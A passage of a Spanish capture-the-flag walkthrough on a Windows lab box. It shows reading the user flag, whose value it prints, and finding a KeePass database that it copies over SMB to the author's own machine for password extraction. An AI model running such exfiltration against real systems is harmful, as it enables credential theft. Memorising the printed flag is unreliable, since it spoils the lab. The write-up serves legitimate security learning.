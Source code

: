 Hemos conseguido entrar al sistema como el usuario **kohsuke**, ahora buscaremos la flag:

```
C:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3232272596fb47950d59c4
```



## Escalada de privilegios


Si vamos abriendo las distintas carpetas del usuario **kohsuke**, encontramos lo siguiente:

```
Directory of C:\Users\kohsuke\Documents

11/03/2017  10:18 PM    <DIR>          .
11/03/2017  10:18 PM    <DIR>          ..
09/18/2017  12:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,642,771,968 bytes free
```

Encontramos un archivo .kdbx que corresponde a la extensión de **keepass**, podríamos sacar contraseñas con esto asi que lo traeremos a nuestro equipo a través del smb:

```
C:\Users\kohsuke\Documents>copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.17\shares
copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.17\shares
        1 file(s) copied.
```
De esta forma tenemos el archivo en nuestro equipo. Utilizando la herramienta `keepassxc` abrimos este archivo:


